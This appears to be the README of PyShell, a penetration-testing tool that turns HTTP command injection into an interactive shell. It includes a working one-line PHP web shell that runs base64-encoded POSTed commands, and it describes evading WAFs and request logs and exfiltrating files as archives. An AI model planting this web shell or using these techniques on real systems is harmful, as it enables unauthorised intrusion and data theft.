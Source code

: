 # PyShell - Shellify Your HTTP Command Injection!

Firewall got you down? Are your reverse-shell connection attempts being
filtered? Are you stuck working solely over HTTP / HTTPS? Then this just might
be just the thing for you.

PyShell exists to make interacting with web-based command injection less
painful. The goal is to make it feel as much like an interactive shell as
possible. Commands are base-64 encoded to help deal with WAFs, and are submitted
as POST requests to be less visible in request logs.

Usage is `python3 pyshell.py URL` where URL points to a script which performs
the command injection, something like this:

```
<?php $r=base64_decode($_POST['cmd']).' '.base64_decode($_POST['opts']); echo `$r` ?>
```

The server-side script should accept the following parameters:
 - `cmd`: the command to be run, base64 encoded
 - `opts`: the options to provide to cmd, also base64 encoded
 - `[timeout]`: optional, denotes the number of seconds to wait for a command

## USAGE DEMO:
![Screencast](pyshell-usage.gif)

## COOL FEATURES:
 - Basic command history (up arrow / down arrow to navigate).
 - Navigate directory tree with `cd [target]` pseudo-command.
 - Exfiltrate files or folders via `get [target]` pseudo-command.
 - Tab completion. (whoa!)

## KNOWN ISSUES:
 - Trying to `cd` into a non-existent directory is not prevented

## MISC NOTES:
Note that you only get output when the command you run exits. Interactive
commands are also unsupported, for reasons that should be obvious -- although if
you ever forget why while using PyShell, we'll consider that a success!

To change the timeout parameter passed with each command, run `settimeout n`. It
defaults to 20. Unless you handle the timeout parameter server side, it does
exactly nothing.

Your command-history is located in `~/.pyshellhistory`.

When exfiltrating data, a tgz file will be created in the `downloads`
subdirectory (which will be created as needed). If you do not have permission to
read a file, the file will simply be omitted in the downloaded archive.
